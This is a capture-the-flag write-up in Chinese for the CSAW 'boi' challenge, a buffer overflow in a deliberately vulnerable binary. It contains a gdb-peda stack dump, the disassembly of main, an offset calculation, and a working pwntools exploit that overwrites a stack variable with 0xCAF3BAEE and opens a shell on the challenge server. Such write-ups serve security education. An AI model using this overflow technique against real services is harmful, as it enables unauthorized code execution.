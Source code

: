 ```bash
[-------------------------------------code-------------------------------------]
   0x40069b <main+90>:  mov    edi,0x0
   0x4006a0 <main+95>:  call   0x400500 <read@plt>
   0x4006a5 <main+100>: mov    eax,DWORD PTR [rbp-0x1c]
=> 0x4006a8 <main+103>: cmp    eax,0xcaf3baee
   0x4006ad <main+108>: jne    0x4006bb <main+122>
   0x4006af <main+110>: mov    edi,0x40077c
   0x4006b4 <main+115>: call   0x400626 <run_cmd>
   0x4006b9 <main+120>: jmp    0x4006c5 <main+132>
[------------------------------------stack-------------------------------------]
0000| 0x7ffd1313f360 --> 0x7ffd1313f488 --> 0x7ffd131402a8 --> 0x545100696f622f2e ('./boi')
0008| 0x7ffd1313f368 --> 0x10040072d
0016| 0x7ffd1313f370 ('a' <repeats 16 times>, "\356\272\363\312\n\276\255", <incomplete sequence \336>)
0024| 0x7ffd1313f378 ("aaaaaaaa\356\272\363\312\n\276\255", <incomplete sequence \336>)
0032| 0x7ffd1313f380 --> 0xdeadbe0acaf3baee
0040| 0x7ffd1313f388 --> 0x0
0048| 0x7ffd1313f390 --> 0x7ffd1313f480 --> 0x1
0056| 0x7ffd1313f398 --> 0xcc79c30a8da0b800
[------------------------------------------------------------------------------] blue
Legend: code, data, rodata, value
0x00000000004006a8 in main ()
gdb-peda$ p $eax
$1 = 0xdeadbe0a
```

idaF5看不出什么东西，直接切汇编

```c
mov     dword ptr [rbp+v6+4], 0DEADBEEFh
mov     edi, offset s   ; "Are you a big boiiiii??"
call    _puts
lea     rax, [rbp+buf]
mov     edx, 18h        ; nbytes
mov     rsi, rax        ; buf
mov     edi, 0          ; fd
call    _read
mov     eax, dword ptr [rbp+v6+4]
cmp     eax, 0CAF3BAEEh
jnz     short loc_4006BB
```

这里我们可以很简单就看出原因所在，eax所存的指针指向的是rbp-0x20+4而buf的首地址是指向rbp-0x30,而if语句比较的相当于在0x4006A8时的eax寄存器的值与0xCAF3BAEE是否相等，而两者的差值并非是v6与buf在栈上的距离，而实际的距离应该是0x30-0x20+4

EXP

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
#n = process('./boi')
n = remote('pwn.chal.csaw.io',9000)
payload = 'a'*(0x30-0x20+0x4)+p32(0xCAF3BAEE)
n.recvuntil('??')
#gdb.attach(n)
n.sendline(payload)

n.interactive()
```
